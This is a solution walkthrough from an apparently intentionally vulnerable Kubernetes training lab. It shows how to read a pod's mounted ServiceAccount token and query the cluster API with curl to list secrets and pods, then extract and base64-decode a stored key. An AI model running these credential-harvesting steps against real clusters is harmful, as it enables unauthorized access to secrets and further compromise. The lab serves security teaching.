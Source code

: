 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

* By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```

![Scenario 16 checking service account](images/sc-16-2.png)

* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

* To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](images/sc-16-3.png)

* To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](images/sc-16-4.png)

* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](images/sc-16-5.png)

* To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](images/sc-16-6.png)

:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

* Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](./sc-16-7.png)

* We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```